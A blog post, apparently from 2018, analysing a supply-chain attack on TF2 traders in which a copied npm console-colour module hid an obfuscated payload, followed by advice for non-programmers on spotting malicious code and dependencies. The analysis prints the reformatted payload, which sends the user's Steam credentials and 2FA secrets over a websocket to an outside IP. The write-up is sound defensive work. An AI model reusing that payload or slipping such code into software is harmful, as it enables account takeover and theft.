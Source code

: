 ```yaml
---
title: "Code Auditing for Non-Programmers"
date: 2018-01-29T12:35:18Z
---
```


I can't believe this. Someone actually went and implemented the attack vector described in [an article posted earlier this month](https://hackernoon.com/im-harvesting-credit-card-numbers-and-passwords-from-your-site-here-s-how-9a8cb347c5b5). **Tl;dr**: Malicious payload stored in an application dependency.

Around US$6,000 in TF2 items were stolen by a scammer who obtained Steam account credentials via a script they wrote. There was a window of over two weeks between release of the malicious script, and fraud being committed. This should have been avoided.

The scammer advertised his script on the backpack.tf forums, which immediately caused a bit of alarm based on what it would do: automatically overcut or undercut (i.e. list with the best price needed to always appear first) on our classifieds system. Generally, this behaviour is frowned upon because it is poor form. This user had previously been banned from several communities -- including this one -- for various reasons, and a bug in previous software he had written resulted in personal losses of thousands of dollars. In hindsight, it's clear he had a motive to do what was done, and inevitably capitalised on the laziness of his victims.

These items were traded off to various holding accounts. In one case, a victim's Marketplace.tf account was compromised via the Steam OpenID login (which could have been prevented by the victim, as Marketplace.tf has its own 2FA implementation). Their inventory contents was withdrawn, and a payout was made to an anonymous email address.

It was when users became aware that their accounts had been hijacked that this was promptly investigated. Victims were fast to conclude that they had all, at some point, ran this script. This prompted an audit of the source code. But the damage had already been done, the scammer had gone into hiding and did his best to cover his tracks.

## Payload analysis

A thorough inspection of code in the repository showed no malicious functions; there were no dodgy HTTP requests or obfuscated `eval` bundles, and handled any credentials in a way that was obvious. Despite being poorly written, the software did what it was supposed to do. It was completely clean -- or was it? 

What was overlooked was a dependency -- a console color module with a malicious payload *just as described in the article*. This module was a line-for-line copy of the existing [better console](https://www.npmjs.com/package/better-console) module, except for when an info message is logged:

```
  // Writes a message to the console with blue color
  info: function(){
    console.log.apply(this, arguments);		var a=['ZW1pdA==','bm9kZS1yc2E=','LS0tLS1CRUdJTiBSU...
  }
```

**NB**: This is truncated, and the payload had a lot more whitespace to try and fool anyone not paying attention to the horizontal scrollbar.

Simply reformatting the one-liner revealed enough about what it did, without needing to run a deobfuscator:

```
if (config != undefined) {
    var d = require('socket.io-client');
    var e = require(b('0x0'));
    var f = new e(b('0x1'));
    var g = JSON[b('0x2')](config);
    var h = f[b('0x3')](g, b('0x4'));
    try {
        var i = d['connect']('http://45.56.74.164:8080');
    } catch (j) {
    }
    i['on'](b('0x5'), () => {});
    i[b('0x6')]('chat\x20message', h);
    setTimeout(function () {
        i['disconnect']();
    }, 0x7d0);
}
```

* Opens a websocket connection to the scammer's remote web server
* Sends the JSON-encoded contents of a global `config` variable, which contains the user's credentials -- Steam username, password, and two-factor authentication secrets (fwiw, Steam's 2FA is practically snake oil)
* Closes the connection after two seconds

He could have just left it deobfuscated and he would have still succeeded. It does not matter. It was hidden well enough that nobody bothered to look for it.

## Conclusions

I have a huge concern for users who are using arbitrarily-sourced scripts without knowing what they might do. The JavaScript ecosystem in particular is wonderful for hiding a payload in plain sight; a lackluster stdlib and the number of external dependencies that are needed to compensate for it, and applications that abuse variables put in the global scope. In this case, an exploit happened thanks to the inclusion of a simple vanity package that flew under the radar.

It's hard to educate users on how to make sure what they are using is legit. There is no guarantee that auto-updating software or its dependencies will stay clean. Saying "don't trust code ever" is just wrong, and users depending on someone else to tell them if software is legitimate or not is also wrong.

We should try to instruct users on how to audit the code they're about to run -- without necessarily teaching them to program.

## Identifying malicious code

First things first: Do you trust the person you're acquiring code from? At any point, despite originally releasing genuine software, they may subtly add a new, malicious feature. You're not going to check the source code after every update, are you?

Regardless, you should know how to identify malicious code without necessarily being able to read it, whether you are a programmer or not:

1. **Look for garbage.** For some reason, malicious actors *love* to obfuscate their payloads when it's not necessary. I'm not sure why. If you see random strings of characters and anonymous variable names in the middle of otherwise nicely-written code, it should raise enough red flags to begin a revolution. Obfuscated code means there's something to hide.
  * The use of `eval` is a sure sign that code is vulnerable to exploitation, intentionally or not. It is either bad code, or *bad* code. Used by attackers, this is used to pack and run malicious code. Used by novice programmers, this is used to write bots that answer maths questions and inevitably get hacked to death.
  * Do keep an eye on the horizontal scrollbar, or enable soft wrapping in your text editor to reveal hidden snippets.
  
1. **Check the dependencies.** As witnessed, dependencies are a great way to hide malicious code. If you don't know what something is, take a look at it. Then scrutinize it as you would for the rest of the source code.
  * **JavaScript**: Software written in JavaScript and various compile-to-JS languages often use the centralised npm repository. Dependencies are listed in the included `package.json` file, and package details can be checked at `https://www.npmjs.com/package/[package-name]`. If a package only has a few downloads, it should be examined thoroughly. **npm is largely unmoderated: anyone can submit a package, and anyone can pretend to be someone else**. It takes mere minutes to plagiarize someone else's package to make a copy with a similar name, so disregard any repository links, homepage links, or how pretty it looks.
  * When checking dependencies, disregard what code you see in the public repository. This won't necessarily be the same code you will download from a package manager for various reasons. **Inspect the code that was actually downloaded through the package manager.**
 
Ultimately, the number of people using a piece of software will correlate with the number of people closely inspecting it. Be careful of what you are running, especially if you are part of a niche community that does not necessarily have a wide developer scene.